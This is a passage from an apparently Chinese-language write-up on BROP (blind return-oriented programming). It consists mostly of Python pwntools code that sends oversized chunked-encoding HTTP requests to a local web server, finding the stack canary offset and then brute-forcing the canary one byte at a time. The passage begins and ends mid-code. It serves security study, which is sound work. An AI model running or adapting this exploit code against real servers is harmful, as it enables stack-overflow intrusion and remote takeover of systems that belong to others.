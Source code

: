 ```python
        s.send(data1 + "A" * i)
        try:
            s.recv(1024)
            s.close()
            i = i+1
        except:
            s.close()
            log.info("canary_offset is:%d",i)
            return i
if __name__ == "__main__":
    canary_offset = get_canary_offset()

```

![image-20220804165240814](BROP%E6%8A%80%E6%9C%AF%E7%A0%94%E7%A9%B6.assets/image-20220804165240814.png)

接着我们就可以按位爆破canary

```python
# -*- coding:utf-8 -*-
# from __future__ import print_function
import socket
from pwn import *

#context.log_level = "DEBUG"

base_payload = """
GET / HTTP/1.1
Host: 127.0.0.1
Transfer-Encoding: chunked\r\n\r\n"""

def get_canary(canary_offset):
    result = ""
    for i in range(0, 8):
        for j in range(0, 256):
            s = connect("127.0.0.1", 80)
            #log.info("payload : %s",base_payload + 'A' * canary_offset + result + chr(j))
            s.send(base_payload + 'A' * canary_offset + result + chr(j))
            try:
                s.recv(1024)
                log.info("canary[%d]:%02x",len(result),j)
                s.close()
                break
            except:
                log.info("canary[%d] not:0x%02x", len(result), j)
            s.close()
        result += chr(j)
    return result
    
if __name__ == "__main__":
    # canary_offset = get_canary_offset()
```
